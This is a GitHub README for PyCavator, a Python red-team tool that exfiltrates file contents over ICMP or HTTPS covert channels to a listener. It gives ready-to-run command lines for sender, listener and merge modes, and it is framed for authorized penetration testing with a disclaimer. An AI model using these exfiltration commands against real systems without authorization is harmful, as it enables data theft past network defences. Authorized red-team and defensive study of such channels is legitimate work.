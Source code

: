 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

### ICMP mode

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

<h3>Examples</h3>:
  <bSender mode: exfiltrate data from a file</b><br/>
  python pycavator-icmp.py -f input.txt -d 192.168.1.101
  
  <bListener mode: listen for incoming data and save in chunks</b><br/>
  python pycavator-icmp.py -l -s 192.168.1.100 -w c
  
  <bListener mode: listen for incoming data and save to a single file</b><br/>
  python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
  
  <bMerge mode: merge output files with part numbers in the specified range</b><br/>
  python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder


### HTTPS mode

<b>Required libraries:</b><br/>
- `argparse`: used for parsing command-line arguments<br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

<h3>Examples:</h3>
  <b>Sender mode: exfiltrate data from a file</b><br/>
  ```bash
  python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
  ```
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
  ```bash
  python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
  ``` 

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




